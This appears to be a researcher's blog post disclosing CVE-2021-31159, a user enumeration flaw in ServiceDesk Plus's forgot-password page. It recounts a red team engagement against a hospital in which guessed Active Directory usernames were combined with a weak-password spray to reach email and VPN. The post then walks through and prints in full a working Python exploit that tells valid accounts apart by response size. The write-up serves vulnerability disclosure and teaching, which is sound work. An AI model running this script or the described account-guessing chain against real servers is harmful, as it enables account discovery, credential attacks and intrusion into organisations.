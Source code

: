 ```yaml
---
layout: post
description: Finding and abusing CVE-2021-31159 for ServiceDesk Plus user enumeration 
title: Finding CVE-2021-31159 for ServiceDesk Plus enumeration 
excerpt_separator: <!--more-->
---
```


This vulnerability takes advantage of ServiceDesk Plus having different output in the password recovery functionality: if the user exists it returns a message claiming an email has been sent but if it does not exist the message is constant.

<!--more-->

Knowing this, it is possible to enumerate accounts in the application or, even better, accounts of an Active Directory if AD authentication is enabled. Very useful when the application is open to the internet and the format of the AD user accounts (for example, name initial + surname) is known.


---------------------------------------------------


## Finding and exploiting it

I found this vulnerability during a Red Team assesment in which there was an outdated ServiceDesk Plus server open to the Internet. In the login page, these servers allow to use local authentication or an AD domain (in this case I changed it to HOSPITAL.DOMAIN):

![Login](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image0.png?raw=true)

<br>

In the "forgot password" page, if the user does not exist you get a message like this:

![Login](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image1.png?raw=true)

<br>

This message is constant, and so has the same size, but it changes if the username is correct (in that case, it states the user will receive an email to update the password). So we can enumerate users, both local and in a domain. If the server is exposed to the Internet, such as in this case, we can enumerate the internal domain users!

I tested typical AD username formats using the most common Spanish surnames (this was a hospital in Spain), such as (name + surname) or (first letter of name + surname). I was lucky with the latter, using the initial "d" and the very common surname "García":

![Login 2](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image2.png?raw=true)

<br>

Then I tested all the alphabet using Burp:

![Burp](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image3.png?raw=true)

<br>

Nice, we got some correct users! We can use the Python library "requests" and get the same results:

![Python example](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image4.png?raw=true)

<br>

After this, I created a list with the common surnames in Spain (https://gist.github.com/ricardojoserf/a4d7c62f6bcae19026cb5a3e72d2e4cd) and enumerated many users. Luckily for me, they used the same format for the emails so I could get the credentials of one employee using other tool I created some time ago, https://github.com/ricardojoserf/adfsbrute and a very weak password (*Companyname123*). From there, I could dump all the emails from Azure, connect to the VPN... a succesful Red Team assesment, abusing such a silly vulnerability!


## Creating the exploit

Now it is time to automate this attack using Python.

#### Creating the parser

First we create a parser with the library "argparse" to have the following parameters:

- domain: The AD Domain to attack
- target: The target url
- usersfile: File containing list of users
- outputfile (optional): File to store the correct users

```
def get_args():
	parser = argparse.ArgumentParser()
	parser.add_argument('-d', '--domain', required=True, action='store', help='Domain to attack')
	parser.add_argument('-t', '--target', required=True, action='store', help='Target Url to attack')
	parser.add_argument('-u', '--usersfile', required=True, action='store', help='Users file')	
	parser.add_argument('-o', '--outputfile', required=False, default="listed_users.txt", action='store', help='Output file')
	my_args = parser.parse_args()
	return my_args
```


#### Creating the main function and getting the parameters values

Next, we will define the main function, which will be the first one to run, and grab the content of the parameters calling the already defined function "get_args":

```
def main():
	args = get_args()
	url = args.target
	domain = args.domain
	usersfile = args.usersfile
	outputfile = args.outputfile
```

#### Getting the "incorrect size"

First we will test a user that will never exist to check the bytes in the response from the "forgot password" functionality. We will compare this size with different users: if the user does not exist, the size will be this.

```
resp_incorrect = s.get(url+"/ForgotPassword.sd?userName="+"nonexistentuserforsure"+"&dname="+domain, verify = False)
	incorrect_size = len(resp_incorrect.content)
	print("Incorrect size: %s"%(incorrect_size))
```

#### Finding correct users 

To check the list of users from te file, we will open it and create a list with each username from the file:

```
	users = open(usersfile).read().splitlines()
```

Then we will iterate each user and create a request to the "forgot passsword" functionality, and checking the response size to find if it exists. If it does, it is added to the "correct_users" list:

```
	correct_users = []
	for u in users:
			resp = s.get(url+"/ForgotPassword.sd?userName="+u+"&dname="+domain, verify = False) 
			valid = (len(resp.content) != incorrect_size)
			if valid:
				correct_users.append(u)
			print("User: %s Response size: %s (correct: %s)"%(u, len(resp.content),str(valid)))
```

Finally, we will write the correct users to a file and print each of them:

```
	print("\nCorrect users\n")
	with open(outputfile, 'w') as f:
		for user in correct_users:
			f.write("%s\n" % user)
			print("- %s"%(user))

	print("\nResults stored in %s\n"%(outputfile))
```


#### Final exploit

The final result is [this script]([https://github.com/ricardojoserf/CVE-2021-31159/blob/main/exploit.py):

```
import argparse
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


def get_args():
	parser = argparse.ArgumentParser()
	parser.add_argument('-d', '--domain', required=True, action='store', help='Domain to attack')
	parser.add_argument('-t', '--target', required=True, action='store', help='Target Url to attack')
	parser.add_argument('-u', '--usersfile', required=True, action='store', help='Users file')	
	parser.add_argument('-o', '--outputfile', required=False, default="listed_users.txt", action='store', help='Output file')
	my_args = parser.parse_args()
	return my_args


def main():
	args = get_args()
	url = args.target
	domain = args.domain
	usersfile = args.usersfile
	outputfile = args.outputfile

	s = requests.session()
	s.get(url)
	resp_incorrect = s.get(url+"/ForgotPassword.sd?userName="+"nonexistentuserforsure"+"&dname="+domain, verify = False)
	incorrect_size = len(resp_incorrect.content)
	print("Incorrect size: %s"%(incorrect_size))

	correct_users = []
	users = open(usersfile).read().splitlines()
	for u in users:
			resp = s.get(url+"/ForgotPassword.sd?userName="+u+"&dname="+domain, verify = False) 
			valid = (len(resp.content) != incorrect_size)
			if valid:
				correct_users.append(u)
			print("User: %s Response size: %s (correct: %s)"%(u, len(resp.content),str(valid)))

	print("\nCorrect users\n")
	with open(outputfile, 'w') as f:
		for user in correct_users:
			f.write("%s\n" % user)
			print("- %s"%(user))

	print("\nResults stored in %s\n"%(outputfile))


if __name__ == "__main__":
    main()
```

## References

- Zoho announcement thanking for the report: https://www.manageengine.com/products/service-desk-msp/readme.html#10519
- Github repo: https://github.com/ricardojoserf/CVE-2021-31159
- Nist: https://nvd.nist.gov/vuln/detail/CVE-2021-31159
- Mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-31159
- Packetstormsecurity: https://packetstormsecurity.com/files/163192/Zoho-ManageEngine-ServiceDesk-Plus-9.4-User-Enumeration.html

